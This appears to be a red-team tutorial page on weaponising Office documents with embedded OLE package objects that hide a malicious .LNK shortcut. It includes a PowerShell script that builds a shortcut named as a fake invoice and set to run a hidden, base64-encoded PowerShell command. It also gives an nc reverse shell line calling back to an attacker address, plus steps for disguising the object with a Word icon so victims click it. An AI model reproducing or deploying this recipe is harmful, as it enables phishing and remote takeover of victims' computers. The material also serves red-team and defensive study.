 # ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```vba
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (23) (1).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (50).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (21) (1).png>)

![](<../../.gitbook/assets/image (31) (1) (1).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (29) (1).png>)

Final result:

![](<../../.gitbook/assets/image (12) (1).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (42) (1) (1).png>)
